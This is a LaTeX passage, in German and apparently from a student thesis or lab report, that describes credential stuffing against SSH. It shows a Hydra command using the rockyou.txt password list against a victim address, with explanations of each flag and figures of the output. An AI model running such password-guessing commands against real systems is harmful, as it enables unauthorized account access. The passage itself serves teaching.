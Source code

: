 \newpage
Die nächste Abbildung zeigt, wie \gls{stuffing} abläuft:

\begin{figure}[H]
   \centering
   \includegraphics[width=0.7\textwidth]{assets/Stuffing.jpg}
   \caption{\textit{\gls{stuffing}}\\Quelle: Eigene Quelle und \citep{Nguyen_stuffing}}
   \centering
\end{figure}

Das folgende Kommando wurde gegen das Angreifersystem für \gls{stuffing} ausgeführt \citep{kali_hydra}:
{
\begin{spverbatim}
   hydra -l test -P rockyou.txt [Adresse von Opfersystem] ssh -V -t 4

   # Erklärung
   -l: Spefizikation der Benutzername, den wir Angreifen
   -P: Auswahl der Datei mit bekannten Passwörter
   ssh: Auswahl der Anwendung, die wir angreifen wollen
   -V: Ausgabe ausführlicher Information über die Durchführungen, wie Versuche, Fehlermeldungen und Erfolge
   -t 4: Anzahl von gleichzeitigen Verbindungen
\end{spverbatim}
}

Das folgende Bild zeigt ein Teil der Ausgabe von \gls{hydra} bei der Ausführung von \gls{stuffing}:
\begin{figure}[H]
   \centering
   \includegraphics[width=0.7\textwidth]{assets/stuffing_kali.png}
   \caption{\textit{\gls{stuffing}}\\Quelle: Eigene Quelle und \citep{Nguyen_stuffing}}
   \centering
\end{figure}

